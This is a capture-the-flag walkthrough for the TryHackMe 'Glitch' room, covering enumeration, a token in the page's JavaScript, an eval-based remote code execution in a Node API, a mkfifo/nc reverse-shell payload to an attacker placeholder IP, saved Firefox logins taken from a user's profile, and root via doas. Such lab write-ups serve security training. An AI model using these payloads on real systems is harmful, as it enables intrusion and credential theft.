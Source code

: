 # [GLITCH](https://tryhackme.com/room/glitch)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Mon Jul 26 08:20:14 2021 as: nmap -vvv -p 80 -sCV -oN nmap 10.10.180.174
Nmap scan report for box.ip (10.10.180.174)
Host is up, received syn-ack (0.23s latency).
Scanned at 2021-07-26 08:20:14 UTC for 22s

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: not allowed
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 26 08:20:36 2021 -- 1 IP address (1 host up) scanned in 22.35 seconds
```

We only have a web service on port 80. Looking at the page, it's just a static page with an image. However, if we look at the source code, we can see the function `getAccess()` declared but not run. If we run it in the developer console, we get a base64-encoded string which when decoded gives us an access token. Looking at the cookies for the page, we have a cookie named "token". If we put the access token here and refresh, we should get a different page.

Since we had the api endpoint `/api/access` earlier in the source code, let's try finding other endpoints with `gobuster`.

```sh
$ gobuster dir -u 'http://box.ip/api/' -w ~/tools/SecLists/Discovery/Web-Content/api/objects.txt  -t 100 -r -o api

/access               (Status: 200) [Size: 36]
/items                (Status: 200) [Size: 169]
```

Checking `/api/items`, a GET requests gives us some json that doesn't seem to mean much at this point.

```sh
$ curl -X GET http://box.ip/api/items
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
```

A POST request also just gives a strange message.

```sh
$ curl -X POST http://box.ip/api/items
{"message":"there_is_a_glitch_in_the_matrix"}
```

Fuzzing URL parameters for POST requests ...

```sh
$ ffuf -X POST -u 'http://box.ip/api/items?FUZZ=test' -w ~/tools/SecLists/Discovery/Web-Content/api/objects.txt -mc all -fs 45
[snip]
cmd                     [Status: 500, Size: 1081, Words: 55, Lines: 11, Duration: 215ms]
```

... gives us the parameter `cmd`. Making a requests with `cmd=test` gives us a 500 response saying "test us not defined", and we can also see that `eval` is used to execute whatever is given to `cmd`, as well as that this is a Node application.

```
ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

Since we have Remote Code Execution (RCE), we can get a reverse shell with the following payload as the value for `cmd`:

```js
require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 1337 >/tmp/f")"
```

With this, we should have a shell as `user`. Looking at our home directory, there's the directory `.firefox` with 777 permissions, which is odd, so we'll copy it to our local machine.

Inside the `.firefox` directory is a firefox profile `b5w4643p.default-release`. We can open it with firefox.

```sh
firefox -profile .firefox/b5w4643p.default-release/
```

In firefox, we can see v0id's credentials at `about:logins`. With the found credentials, we can become the `v0id` user with `su v0id`.

At this point, I ran [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) and found that we have `doas`, an alternative to `sudo`. Since we have v0id's password, we can easily get a shell as root.

```sh
doas bash
```

With that, we should now have a root shell.
